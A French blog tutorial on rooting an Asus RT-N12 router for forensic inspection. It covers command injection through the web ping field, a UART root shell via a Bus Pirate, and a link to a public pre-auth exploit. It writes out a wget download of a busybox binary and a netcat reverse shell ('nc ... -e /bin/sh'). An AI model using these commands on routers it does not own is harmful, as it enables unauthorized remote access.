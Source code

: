 Rooting le rt-n12
#################
:date: 2016-02-04
:category: Reverse
:slug: reverse-rt-n12


Introduction :
~~~~~~~~~~~~~~

AsusTek est une entreprise de création de matériel informatique, téléphonique et réseau. Son routeur RT-N12  est l'objet de cet article. Nous allons ici tenter d'obtenir un shell root sur la bête parce que celui-ci a été compromis. Comme nous ne voulons pas effacer d’éventuelles preuves , nous n'allons pas le flasher.

Le Materiel :
~~~~~~~~~~~~~

Il vous faudra : un PC avec un port Ethernet, votre butineur préféré ainsi qu'une interface UART ( optionnel ).

1 - Attaquer l'interface Web :
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Sur tout les routeurs modernes, nous avons une interface Web pour faciliter la configuration de l'engin. Elle sont quasi tout le temps développées "in-house" et présentent souvent des failles de sécurité. Nous allons donc voir ce que nous pouvons tirer de celle de notre routeur.

On trouve immédiatement une interface pour effectuer des ping. Celles-ci appellent tout le temps le shell sous-jacent.On va donc injecter des commandes sur ce menu.

.. image:: thumbnails/Interface-rtn12_thumbnail_square.png
  :target: images/Interface-rtn12.png
  :alt: Interface image

Regardons déjà la sortie standard en "Ciblant" l'IP de notre PC:

.. code-block:: bash

  PING 192.168.1.139 (192.168.1.139): 56 data bytes
  64 bytes from 192.168.1.139: seq=0 ttl=64 time=3.935 ms
  64 bytes from 192.168.1.139: seq=1 ttl=64 time=6.019 ms
  64 bytes from 192.168.1.139: seq=2 ttl=64 time=0.887 ms
  64 bytes from 192.168.1.139: seq=3 ttl=64 time=0.854 ms
  64 bytes from 192.168.1.139: seq=4 ttl=64 time=0.910 ms

  --- 192.168.1.139 ping statistics ---
  5 packets transmitted, 5 packets received, 0% packet loss
  round-trip min/avg/max = 0.854/2.521/6.019 ms


Bon, on a un retour. voyons si nous lui injectons une commande avec $(ls)

.. code-block:: bash

  BusyBox v1.17.4 (2014-11-05 00:29:30 CST) multi-call binary.

  Usage: ping [OPTIONS] HOST

C'est aussi facile ? On dirait bien ! par contre, on a pas de retour, pas grave, on peut continuer à l'aveugle. On a déjà un bon indice, la version de BusyBox ( une "boite à outils" minimale pour linux ).

cette technique n'est cependant pas très pratique à utiliser, nous verrons au point 4 comment la rendre plus joueuse.

2 - Ouvrir la bête :
~~~~~~~~~~~~~~~~~~~~

Pendant son développement, les créateurs du routeur doivent avoir accès à une CLI pour pouvoir le débugger ou pour effectuer des tests. Il y a donc souvent sur les PCB des ports de type SPI, UART ou encore JTAG. Nous pouvons donc utiliser l'un de ces port pour avoir accès aux entrailles du routeur. L'UART est une interface série "en mode low power".  Le Bus Pirate offre entre autre une interface UART. C'est aussi le port le disponible sur la PCB de notre routeur.

Après quelque coups de tournevis , on a accès à la PCB. Il faut tout d'abords identifier le port UART : on le voit entouré sur la photo ( NB: j'y ai rajouté les pins pour un accès plus facile ):

.. image:: thumbnails/UART_thumbnail_square.jpg
  :target: images/UART.jpg
  :alt: Interface image

Cela ne nous renseigne pas sur le câblage des pins. On peut utiliser un outils dédié : le JTAGULATOR, ou alors, le faire à la main.

On va faire ça avec les outils qu'on a à disposition : un multimètre numérique. On va déjà chercher la masse : on prend la masse sur  l'alimentation et on test toutes les pins. lorsque le multimètre en mode "testeur de diode" sonne, c'est qu'on a trouvé la masse ( pin N*3 en partant du haut sur la photo ).

On va ensuite trouver VCC: on recommence la même manipulation qu'avant avec le routeur allumé , mais avec le multimètre en mode voltmètre à la recherche de 3.3V. On découvre que le port n*4 en partant du haut est stable sur 3.3v, c'est donc le Vcc. Les deux autres sont RX et TX, on les identifiera avec le bus pirate. On branche déjà GND ( surtout pas VCC, vous pourriez griller le routeur ET le bus pirate). On branche ensuite le RX et TX sur les pins 1 et 2 . Si lors de l'allumage, le bus pirate détecte quelque chose, c'est que le branchement est correct, sinon, on intervertit RX et TX.

La configuration de l'UART est la suivante :

.. table:: Options UART

  ======= =============== ======= ===========
  Vitesse Bits de données Paritée Bit de stop
  ======= =============== ======= ===========
  115200  8               Non     1
  ======= =============== ======= ===========

Dans l'interface du bus pirate ça donne les commandes suivantes :

.. list-table:: Les commandes du bus pirate :

    * - m
    * - 3
    * - 9
    * - 1
    * - 1
    * - 1
    * - 2
    * - (1) <= cette commande met le bus pirate en mode passif. toute commande envoyé après celle-ci ira sur le port UART.
    * - y

Un p'tit test :

.. code-block:: bash

  / # uname -a
  Linux (none) 2.6.22.19 #1 Wed Nov 5 00:32:32 CST 2014 mips GNU/Linux

Voila, nous avons un shell Root sur le routeur.

3 - Exploit pre-auth:
~~~~~~~~~~~~~~~~~~~~~

On a de la chance : cette version du firmware possède une erreur de programmation qui permet de lancer une commande sans même avoir d’accès au routeur. L'exploit se trouve ici : https://www.exploit-db.com/exploits/35688/

Celui-ci et capable de lancer une commande pre-auth sur le routeur. On le lance avec l'IP du routeur et la commande à effectuer, et voila !

Encore une fois, c'est pas très pratique : on verra comment le rendre plus fun dans le point suivant

4 - Post-rooting:
~~~~~~~~~~~~~~~~~

On a à présent une commande sur le routeur. Mais certaine  de ces techniques ne sont pas très utiles tant que l'on n'a pas encore "rootkité" le routeur. On veut un shell stable et qui fonctionne comme mon shell sur mon linux. Busybox offre dans ses dernières versions un netcat parfaitement fonctionnel avec qui plus est , l'option -e ( pour "plugger" les entrées et sorties standard d'un processus )

On va donc installer une busybox dernière version sur le routeur.

.. list-table:: Les points à effectuer :

  * - Obtenir une meilleur version de busybox
  * - installer celle-ci sur le routeur
  * - Obtenir un reverse shell

Déjà trouver une busybox compatible. Ce sera un MIPS Little Endian. Une version est téléchargeable directement ici : https://www.busybox.net/downloads/binaries/latest/ celle qui nous intéresse est la mipsel. Une fois obtenue, il faut la mettre sur le routeur.

Python possède un outils très puissant : SimpleHTTPServer : dans le même répertoire que la version de busybox fraîchement téléchargée, on exécute :

.. code-block:: bash

  python -m SimpleHTTPServer 80

Ceci va lancer un serveur HTTP , il ne reste plus qu'à la télécharger sur le routeur :
wget http://192.168.1.139/busybox-mipsel -O /tmp/busybox

puis :

.. code-block:: bash

  chmod 777 /tmp/busybox

Nous avons à présent une nouvelle busybox sur le routeur. On va déjà placer un netcat en écoute sur le PC:

.. code-block:: bash

  nc -l -p 1234

Et enfin, dans le shell du routeur :

.. code-block:: bash

  /tmp/busybox nc 192.168.1.139 1234 -e /bin/sh

Un p'tit test :

.. code-block:: bash

  ls -alh
  drwxr-xr-x   10 admin    root        3.5K Nov  4  2014 .
  drwxr-xr-x   18 admin    root         225 Nov  4  2014 ..
  -rw-r--r--    1 admin    root       13.0K Nov  4  2014 Advanced_ACL_Content.asp
  -rw-r--r--    1 admin    root       14.2K Nov  4  2014 Advanced_ASUSDDNS_Content.asp
  -rw-r--r--    1 admin    root        7.8K Nov  4  2014 Advanced_BasicFirewall_Content.asp
  <============== 8<====================>
  -rw-r--r--    1 admin    root       34.6K Nov  4  2014 validator.js
  -rw-r--r--    1 admin    root          38 Nov  4  2014 wds_aplist_2g.asp
  -rw-r--r--    1 admin    root          38 Nov  4  2014 wds_aplist_5g.asp
  -rw-r--r--    1 admin    root          40 Nov  4  2014 wds_aplist_5g_2.asp
  -rw-r--r--    1 admin    root        1.7K Nov  4  2014 wlconn_apply.htm
  lrwxrwxrwx    1 admin    root          18 Nov  4  2014 wpad.dat -> /www/ext/proxy.pac

Et voila, on a un shell à travers le réseau ! on peut à présent déplacer  les binaires avec netcat sur le PC pour les analyser. Nous allons d’ailleurs récupérer infosvr pour analyse.
